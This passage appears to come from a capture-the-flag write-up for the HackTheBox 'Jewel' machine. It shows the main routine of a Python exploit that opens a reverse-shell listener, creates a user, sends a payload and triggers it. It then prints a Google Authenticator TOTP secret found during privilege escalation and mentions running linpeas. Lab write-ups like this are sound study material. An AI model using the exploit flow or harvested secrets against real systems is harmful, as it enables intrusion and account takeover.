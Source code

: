 ```py
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's create the payload
    createPayload(lhost,lport)
    # Let's create the user
    createUser(rhost)
    # Let's login
    loginRequest(rhost)
    # Now let's send the payload
    sendPayload(rhost,lhost,lport)
    # Trigger
    loginRequest(rhost)

if __name__ == '__main__':
    main()
```

Once we have an easy shell on this box. Let's continue our exploration.

# Bill --> Root

Let's start our hunt for root on this box.

Looking at home direcroty from bill we see a `.google_authenticator` file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2012:56:11.png)

We see that is a alphanumeric string

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-16-HackTheBox-Jewel/2021-09-16-HackTheBox-Jewel%2012:59:57.png)

```
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

Maybe we use it after. Let's continue enumerating

So, I ran [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)
